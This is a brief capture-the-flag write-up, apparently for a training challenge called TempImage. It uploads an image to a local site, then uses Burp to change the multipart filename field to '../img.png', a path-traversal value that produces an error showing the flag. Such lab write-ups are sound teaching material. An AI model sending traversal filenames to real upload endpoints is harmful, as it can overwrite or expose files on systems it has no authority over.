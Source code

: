 # TempImage - FLAG0

## 0x00 Index

![](./imgs/index.jpg)

## 0x01 Upload

![](./imgs/upload.jpg)

The image is successfully uploaded to the site.

```
http://127.0.0.1:5001/xxxxxxxxxx/files/d10c88f869301b1238f53cfdff8e9d7c_img.png
```

## 0x02 Modify File Name

Modify file name in Burp

```
Content-Disposition: form-data; name="filename"

../img.png
```

## 0x03 Upload Error and FLAG

![](./imgs/flag.jpg)